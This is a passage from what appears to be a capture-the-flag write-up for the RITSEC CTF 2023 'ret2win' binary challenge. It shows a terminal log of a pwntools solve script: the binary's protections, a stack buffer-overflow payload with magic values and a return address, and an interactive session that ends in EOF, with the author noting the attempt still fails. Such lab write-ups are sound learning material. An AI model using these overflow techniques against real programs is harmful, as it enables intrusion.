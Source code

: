 
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.02|23:50:12(HKT)]
└> python3 solve.py
[*] '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win': pid 396927
[*] Payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca\xbe\xba\xde\xc0\x96\x11@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (186B)
[*] Stopped process '/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/ret2win' (pid 396927)
b'[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca\xbe\xba\xde\xc0\x96\x11@, now do some damage :) \n[*]  if you figure out my address, you are hired.\n[!!] You are good but not good enough for my company\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

However, I tried to pass CMP instructions check in the RBP register, still no dice...